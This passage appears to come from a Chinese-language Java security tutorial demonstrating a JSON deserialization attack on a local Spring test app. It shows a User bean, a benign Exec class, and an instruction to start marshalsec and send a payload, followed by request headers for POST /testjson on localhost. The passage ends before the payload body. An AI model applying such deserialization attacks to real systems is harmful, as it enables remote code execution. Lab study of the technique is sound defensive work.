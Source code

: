```java
        return body;
    }
```
```java
package com.spring.Controller;

public class User {
    private Integer userId = 0;
    private String userName = "";
    public User(){}

    public Integer getUserId() {
        return this.userId;
    }

    public void setUserId(Integer userId) {
        System.out.println("set running");
        this.userId = userId;
    }

    public String getUserName() {
        return this.userName;
    }

    public void setUserName(String userName) {
        System.out.println("set running");
        this.userName = userName;
    }
    @Override
    public String toString(){
        return "User{" +
                "name='" + userName + '\'' + ',' + "id='" + userId + '\'' +
                '}';
    }
}

```
```java
public class Exec {
    public Exec() {
        System.out.println("hello world");
    }
}
```
启动web，启动marshalsec，发送如下payload
```http
POST /testjson HTTP/1.1
Host: 127.0.0.1:8081
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
```